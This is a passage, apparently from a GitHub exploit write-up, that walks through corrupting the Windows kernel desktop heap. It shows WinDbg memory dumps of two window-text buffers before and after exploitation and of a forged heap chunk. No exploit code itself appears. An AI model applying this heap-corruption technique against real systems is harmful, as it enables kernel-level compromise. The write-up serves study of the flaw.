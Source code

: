 Beyond that, any other value would be done.

In order to track the whole corrupting procedure conveniently, I print some central value in console. 

![](./figure/console.PNG)

According to the output, we can glance the corrupting desktop heap layout with WinDbg.

This is WND_1_Text and WND_2_Text at step 7 and step 8:

    1: kd> db fea2d7a8-8 l78*2
    fea2d7a0  0f 00 01 00 d9 00 00 08-00 00 00 00 1d 01 01 00  ................
    fea2d7b0  e8 00 00 08 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7c0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7d0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7e0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7f0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d800  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d810  00 00 00 00 00 00 00 00-0f 00 01 00 0f 00 00 08  ................
    fea2d820  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d830  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d840  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d850  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d860  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d870  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d880  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................

This is the condition after be exploited at step 15 :

    0: kd> db fea2d7a8-8 l78*2
    fea2d7a0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7b0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7c0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7d0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7e0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7f0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d800  00 00 00 00 00 00 00 00-00 00 00 00 0f 00 01 00  ................
    fea2d810  d9 00 00 08 00 00 00 00-1d 01 01 00 e8 00 00 08  ................
    fea2d820  f0 36 a3 fe 10 ca a2 fe-00 00 00 00 00 00 00 00  .6..............
    fea2d830  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d840  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d850  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d860  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d870  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d880  00 00 00 00 0f 00 01 00-0f 00 00 08 00 00 00 00  ................

This is the completed fake chunk:

    0: kd> db fea2d820-8
    fea2d818  1d 01 01 00 e8 00 00 08-f0 36 a3 fe 10 ca a2 fe  .........6......
    fea2d828  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d838  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d848  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d858  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d868  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d878  00 00 00 00 00 00 00 00-00 00 00 00 0f 00 01 00  ................
    fea2d888  0f 00 00 08 00 00 00 00-00 00 00 00 00 00 00 00  ................
